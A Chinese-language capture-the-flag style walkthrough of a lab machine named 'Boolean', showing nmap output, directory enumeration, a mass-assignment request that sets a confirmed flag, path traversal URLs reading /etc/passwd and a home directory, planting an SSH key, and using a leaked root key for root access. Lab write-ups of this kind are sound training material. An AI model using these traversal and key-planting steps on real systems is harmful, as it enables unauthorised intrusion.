









## 偵查

```shell
Open 192.168.119.231:22
Open 192.168.119.231:80
```
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBvgZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp open  http    syn-ack ttl 61
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-title: Boolean
|_Requested resource was http://192.168.119.231/login
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.95%I=7%D=8/29%Time=68B17D67%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,55,"HTTP/1\.0\x20403\x20Forbidden\r\nContent-Type:\x20text/html;
SF:\x20charset=UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,55,"H
SF:TTP/1\.0\x20403\x20Forbidden\r\nContent-Type:\x20text/html;\x20charset=
SF:UTF-8\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Bad\
SF:x20Request\r\n\r\n")%r(FourOhFourRequest,55,"HTTP/1\.0\x20403\x20Forbid
SF:den\r\nContent-Type:\x20text/html;\x20charset=UTF-8\r\nContent-Length:\
SF:x200\r\n\r\n")%r(GenericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(D
SF:NSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(
SF:Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLSessionReq,1
SF:C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalServerCookie,
SF:1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessionReq,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HTTP/1\.1\x20
SF:400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Reque
SF:st\r\n\r\n")%r(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:\r\n")%r(LDAPBindReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(SIPOptions,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LANDesk-
SF:RC,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalServer,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(NCP,1C,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\n\r\n")%r(NotesRPC,1C,"HTTP/1\.1\x20400\x20Bad\x
SF:20Request\r\n\r\n")%r(JavaRMI,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(WMSRequest,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(oracle-tns,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(ms-sql-s
SF:,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(afp,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(giop,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:14
Completed NSE at 06:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:14
Completed NSE at 06:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:14
Completed NSE at 06:14, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.50 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
## 分析

- 有開 22/ssh 跟 80/http
- 可以先看看 website



SQLi 發現沒有效果  
看看有什麼路徑  

```shell
/login                (Status: 200) [Size: 2413]
/register             (Status: 200) [Size: 2765]
/404                  (Status: 200) [Size: 1722]
/500                  (Status: 200) [Size: 1635]
/422                  (Status: 200) [Size: 1705]
/filemanager          (Status: 302) [Size: 94] [--> http://192.168.119.231/login]
```

先註冊再登入看看



結果按 Edit 之後觀察 request 和 response
發現了這個



可以用 burp suite 來進行攔截 request 然後送看看
把 payload 改成 
```
_method=patch&authenticity_token=2_MZJHBfhLgRd9VvbGQa4rJ9m8CTz3DgkKTBbl1w2rvpOUagtRVO7CPYVh2zGZNw_OrpCfcHwweZErMue9-yzg&user%5Bconfirmed%5D=true&commit=Change%20email
```

之後 resend 這個 request，之後 response 就有了 confirmed 


然後會看到 filemanager 的畫面



隨便丟檔案上去，觀察看看



可以推測出

- cwd 這個參數是路徑
- file 是哪個檔案

這樣的話就知道可以有 Path traversal 的漏洞  
之後可以嘗試用漏洞來讀取檔案

```
http://192.168.119.231/?cwd=../../../../../etc&file=passwd&download=true
```

這樣就有了目標系統的 passwd 檔案內容


嘗試讀取 remi 的 home 目錄看看

```
http://192.168.119.231/?cwd=../../../../../home/remi&file=&download=true
```


可以讀取 remi 的 ssh key file



需要上傳 public ssh key 到 /home/remi/.ssh/authorized_keys  
上傳完後就可以使用 ssh 登入 normal user 了

## 提權

剛才有看到 root 的 ssh key file  
直接用會有問題  
問了 GPT 才說要繞 agent ， 但我看別人的 wp 不用
```
ssh -o IdentitiesOnly=yes -o IdentityAgent=none -i ~/.ssh/keys/root root@127.0.0.1
```
Get root shell!